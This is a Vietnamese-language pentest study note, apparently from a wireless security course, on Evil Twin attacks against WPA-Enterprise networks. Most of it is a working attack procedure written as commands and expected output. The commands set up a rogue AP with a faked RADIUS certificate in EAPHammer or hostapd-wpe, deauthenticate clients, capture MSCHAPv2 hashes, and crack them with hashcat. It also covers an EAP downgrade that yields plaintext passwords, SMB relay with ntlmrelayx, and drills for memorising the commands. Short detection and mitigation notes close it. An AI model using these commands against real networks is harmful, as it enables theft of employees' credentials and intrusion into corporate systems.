

> **Prerequisites**: [[01-802.11-protocol-internals|01. 802.11 Protocol Internals]] · [[02-wireless-lab-setup|02. Wireless Lab Setup]]
> **Objectives**:
> - Hiểu EAP authentication flow và điểm yếu trong PEAP/TTLS
> - Capture MSCHAPv2 NTHash từ WPA-Enterprise clients bằng hostapd-wpe và EAPHammer
> - Thực hiện EAP Downgrade attack để lấy cleartext credentials
> - Crack NTHash offline với hashcat và relay credentials

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Target AP dùng WPA-Enterprise (802.1X) với PEAP, TTLS, hoặc EAP-FAST
> - Client **không validate server certificate** (hoặc validate nhưng CN match được fake)
> - Wireless adapter hỗ trợ AP mode (wlan0) để làm fake RADIUS server
> - Certificate hợp lệ (hoặc fake cert với CN giống thật) để establish TLS tunnel

> [!tip] Điều kiện thực tế
> Phần lớn WPA-Enterprise deployments trong enterprise đều misconfigured — client không enforce certificate validation. Đây là vulnerability phổ biến nhất trong wireless enterprise security.

---

## Cơ chế tấn công

![[img-05-wpa-enterprise-eap-flow.svg]]
*Hình 1: WPA-Enterprise Evil Twin — EAP PEAP/TTLS tunnel và MSCHAPv2 credential capture*

### WPA-Enterprise và 802.1X

WPA-Enterprise dùng **IEEE 802.1X** authentication thay vì pre-shared key. Ba thành phần:

**Supplicant** — client device (laptop, phone).
**Authenticator** — AP (relay authentication).
**Authentication Server** — RADIUS server (thường là Windows NPS, FreeRADIUS).

Authentication flow (PEAP/MSCHAPv2 — phổ biến nhất):

```
Client ↔ AP ↔ RADIUS Server

1. Client → AP: EAP-Request/Identity
2. AP → RADIUS: EAP forwarded
3. RADIUS → AP → Client: Begin PEAP (TLS handshake)
4. Client ← Server cert (kiểm tra tại đây!)
5. TLS tunnel established
6. Trong tunnel: EAP-Identity (real username)
7. Trong tunnel: MSCHAPv2 Challenge/Response
8. RADIUS verify → accept/reject
```

### Điểm yếu: Certificate Validation

Trong bước 4, client nhận server certificate từ RADIUS. Nếu client **enforce certificate validation đúng cách**:
- Verify certificate chain (CA trust)
- Verify CN/SAN match domain
- Attack thất bại — client từ chối kết nối

Nếu client **không validate** (misconfiguration rất phổ biến):
- Client chấp nhận bất kỳ cert nào
- TLS tunnel hình thành với fake RADIUS của attacker
- Attacker nhận MSCHAPv2 challenge và response → crack offline

### Tại sao MSCHAPv2 có thể crack?

Trong PEAP-MSCHAPv2, inner authentication dùng MSCHAPv2. Attacker nhận:
- `username`
- `challenge` (8-byte random)
- `response` (24-byte, derived từ NT hash của password)

Với challenge + response, attacker có thể crack offline với Hashcat mode 5600 (NTLMv2 format).

### EAP Downgrade Attack

Nếu client hỗ trợ nhiều EAP methods (PEAP, TTLS, GTC, PAP), attacker có thể configure fake RADIUS để negotiate xuống EAP-GTC hoặc PAP — vốn gửi credentials **plaintext** trong TLS tunnel:

```bash
# Trong hostapd.eap_user — force downgrade
* PEAP,TTLS,GTC "t" TTLS-PAP,TTLS-CHAP,GTC "whatever"
```

Client nhận EAP-GTC/PAP request và gửi password plaintext → không cần crack.

---

## Quy trình tấn công

**Môi trường giả định**: Target `Corp-Enterprise`, BSSID `AA:BB:CC:DD:EE:FF`, Channel 11, EAP-PEAP/MSCHAPv2.

### Bước 1 — Reconnaissance

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0

# Identify Enterprise AP (AUTH column sẽ show MGT thay vì PSK)
sudo airodump-ng wlan0mon

# Lock target channel
sudo airodump-ng wlan0mon -c 11 --bssid AA:BB:CC:DD:EE:FF
```

> **Expected output**: AUTH column = `MGT` (management/802.1X) → xác nhận là Enterprise.

### Bước 2 — Generate Certificates (EAPHammer)

```bash
cd /opt/eaphammer

# Interactive cert wizard — điền thông tin giả
sudo ./eaphammer --cert-wizard
# Nhập: Country, State, Locale, Org, FQDN (match với CN của RADIUS thật nếu biết)

# Non-interactive (nhanh hơn)
sudo ./eaphammer --cert-wizard --cn "radius.corp.local" \
    --org "Corp Inc" --country "US" --state "CA"
```

> **Expected output**: `[*] Certificate generated successfully` với `certs/` folder chứa ca.pem, server.pem, server-key.pem.

### Bước 3 — Launch Evil Twin (EAPHammer — Standard)

```bash
# Tấn công PEAP/TTLS — capture NTHash
sudo ./eaphammer -i wlan0 \
    --channel 11 \
    --auth wpa-eap \
    --essid "Corp-Enterprise" \
    --creds
```

> **Expected output**:
> ```
> [*] Starting rogue AP on channel 11
> [*] Waiting for clients...
> [+] EAP identity: CORP\jsmith
> [+] MSCHAPv2 Challenge: a1b2c3d4e5f6a7b8
> [+] MSCHAPv2 Response: 001122334455...
> [+] Captured hash: jsmith::CORP:a1b2c3d4e5f6a7b8:001122334455...:01
> ```

### Bước 4 — Deauthentication (ép client connect vào rogue AP)

```bash
# wlan1 ở monitor mode để deauth
sudo airmon-ng start wlan1
sudo aireplay-ng --deauth 0 -a AA:BB:CC:DD:EE:FF wlan1mon
```

> **Expected output**: Clients disconnect → reconnect tự động → kết nối vào rogue AP của EAPHammer.

### Bước 5 — Crack NTHash (Hashcat)

```bash
# Hashes được save trong eaphammer/loot/ hoặc output từ stdout
# Format: username::domain:challenge:NT_response:01

# MSCHAPv2 — NTLMv2 format (mode 5600)
hashcat -m 5600 eaphammer_creds.txt /usr/share/wordlists/rockyou.txt

# Với rules
hashcat -m 5600 eaphammer_creds.txt /usr/share/wordlists/rockyou.txt \
    -r /usr/share/hashcat/rules/best64.rule

# NTLMv1 (nếu cũ — mode 5500)
hashcat -m 5500 eaphammer_creds.txt /usr/share/wordlists/rockyou.txt
```

> **Expected output**: `jsmith::CORP:...:... : P@ssword2024` — password bị crack.

### Bước 6 — EAP Downgrade Attack (EAPHammer)

```bash
# Force negotiate xuống PAP/GTC để lấy plaintext
sudo ./eaphammer -i wlan0 \
    --channel 11 \
    --auth wpa-eap \
    --essid "Corp-Enterprise" \
    --creds \
    --negotiate weakest

# Với hostapd-wpe — manual downgrade
# Sửa hostapd.eap_user:
# * PEAP,TTLS,TLS,MD5,GTC "t"
# * TTLS-PAP,TTLS-CHAP,GTC "whatever"   ← force PAP
```

> **Expected output**: `[+] Plaintext credential: CORP\jsmith : P@ssword2024` — không cần crack.

### hostapd-wpe (Manual — Advanced)

```bash
# Cài hostapd-wpe
sudo apt install -y hostapd-wpe

# Config
cat > /tmp/hostapd-wpe.conf << 'EOF'
interface=wlan0
driver=nl80211
ssid=Corp-Enterprise
hw_mode=g
channel=11
wpa=3
wpa_key_mgmt=WPA-EAP
auth_algs=3
ieee8021x=1
eap_server=1
eap_user_file=/etc/hostapd/hostapd.eap_user
ca_cert=/etc/hostapd/certs/ca.pem
server_cert=/etc/hostapd/certs/server.pem
private_key=/etc/hostapd/certs/server.key
private_key_passwd=whatever
dh_file=/etc/hostapd/certs/dh.pem
eap_fast_a_id=101112131415161718191a1b1c1d1e1f
eap_fast_a_id_info=Corp CA
wpe_logfile=/tmp/wpe_creds.log
EOF

sudo hostapd-wpe /tmp/hostapd-wpe.conf
```

> **Expected output**: `/tmp/wpe_creds.log` chứa:
> ```
> username: jsmith
> challenge: a1:b2:c3:d4:e5:f6:a7:b8
> response: 00:11:22:33:44:55...
> jtr NETNTLM: jsmith::CORP:a1b2c3d4:001122...:01
> ```

---

## Biến thể & Bypass

### Relay NTHash → SMB (Không cần crack)

Nếu crack thất bại nhưng có NTHash, dùng relay attack:

```bash
# Relay NTHash sang SMB target trong network
# (cần network access sau khi client connect)
impacket-ntlmrelayx -t smb://TARGET_IP --no-http-server -smb2support
```

### EAP-TLS (Client Certificate)

Nếu network dùng EAP-TLS (certificate-based, không phải password), attack khác — cần steal hoặc forge client certificate. Phức tạp hơn, xem HackTricks WPA-Enterprise section.

### EAP-FAST

EAP-FAST (Cisco) dùng Protected Access Credential (PAC). Có thể capture PAC nếu Phase 0 không được bảo vệ.

---

## Cây quyết định



---

## Command Cheatsheet

**EAPHammer Setup**

```bash
# Install
git clone https://github.com/s0lst1c3/eaphammer && cd eaphammer
sudo ./kali-setup

# Generate cert
sudo ./eaphammer --cert-wizard --cn "radius.corp.local"
```

**EAPHammer Attacks**

```bash
# Standard PEAP/TTLS capture
sudo ./eaphammer -i wlan0 --channel CH --auth wpa-eap --essid "SSID" --creds

# With DHCP
sudo ./eaphammer -i wlan0 --channel CH --auth wpa-eap --essid "SSID" --creds --dhcp

# EAP Downgrade
sudo ./eaphammer -i wlan0 --channel CH --auth wpa-eap --essid "SSID" --creds --negotiate weakest

# MANA + Enterprise
sudo ./eaphammer -i wlan0 --channel CH --auth wpa-eap --essid "SSID" --mana --creds
```

**Crack hashes**

```bash
# MSCHAPv2 (NTLMv2) — most common
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt

# With rules
hashcat -m 5600 hashes.txt rockyou.txt -r best64.rule

# NTLMv1
hashcat -m 5500 hashes.txt rockyou.txt

# JtR
john --format=netntlmv2 hashes.txt --wordlist=rockyou.txt
```

**Deauth Enterprise clients**

```bash
sudo airmon-ng start wlan1
sudo aireplay-ng --deauth 0 -a <BSSID> wlan1mon
sudo aireplay-ng --deauth 0 -a <BSSID> -c <CLIENT_MAC> wlan1mon
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày đầu.

**Drill 1 — EAPHammer cert-wizard + attack command**

```bash
sudo ./eaphammer --cert-wizard --cn "radius.target.local"
sudo ./eaphammer -i wlan0 --channel 6 --auth wpa-eap --essid "Corp" --creds
```

Luyện cho đến khi: gõ cả hai commands chính xác không cần reference.

**Drill 2 — Identify hash format và chọn hashcat mode**

```bash
# Xem format output của EAPHammer:
# username::domain:challenge:response:01
# → mode 5600 (NTLMv2)
# vs
# username::domain:LMresp:NTresp:challenge
# → mode 5500 (NTLMv1)
```

Luyện cho đến khi: phân biệt ngay lập tức từ format.

**Drill 3 — Full chain: cert → attack → deauth → crack**

Luyện cho đến khi: thực hiện toàn bộ flow trong dưới 8 phút.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Client side**: Certificate warning khi connect → user ignore là dấu hiệu đang bị attack.
>
> **Network**: Hai APs cùng SSID với cert khác nhau → WIPS alert.
>
> **RADIUS logs**: Authentication failures từ unknown AP BSSID.
>
> **Event**: Windows Security Event 8001/8002 (EAP authentication failed/succeeded).

> [!note] Mitigation
> - **Enforce certificate validation** trong EAP client config — quan trọng nhất
> - Pin RADIUS server certificate (CN + CA chain)
> - Disable weak EAP methods: GTC, PAP, MD5 — chỉ cho phép PEAP/TLS
> - WIPS: detect rogue APs với invalid certificates
> - Dùng EAP-TLS (mutual cert auth) thay PEAP/TTLS khi có thể

---

## Lab Thực hành

| Platform | Machine / Module | Tại sao phù hợp |
|----------|---------|----------------|
| HTB Academy | **Wi-Fi Evil Twin Attacks** | WPA-Enterprise section với EAPHammer và hostapd-wpe |
| HTB Academy | **Attacking WPA/WPA2 Wi-Fi Networks** | WPA-Enterprise deep dive + MSCHAPv2 capture |
| Local VMs | FreeRADIUS + Windows 10 + Kali | Full Enterprise lab với legit RADIUS để practice |
| HTB Academy | **Attacking Corporate Wi-Fi Networks** | Real-world Enterprise attack trong simulated corporate env |

---

## Field Manual Entry

> [!abstract] Evil Twin WPA-Enterprise — Quick Reference
> **Điều kiện**: WPA-Enterprise (MGT auth); client không validate server cert; cần AP mode adapter
> **Lệnh nhanh**: `sudo ./eaphammer -i wlan0 --channel CH --auth wpa-eap --essid "SSID" --creds`
> **Full flow**: cert-wizard → eaphammer --creds → deauth clients → capture MSCHAPv2 hash → hashcat -m 5600
> **Look for**: `username::domain:challenge:response` format trong output
> **Downgrade**: Thêm `--negotiate weakest` → cleartext credentials nếu client hỗ trợ GTC/PAP
> **Detection**: Event 8001/8002, cert warning bị ignore, WIPS rogue AP alert
> **Ref**: [[05-evil-twin-wpa-enterprise|05. Evil Twin WPA-Enterprise]]
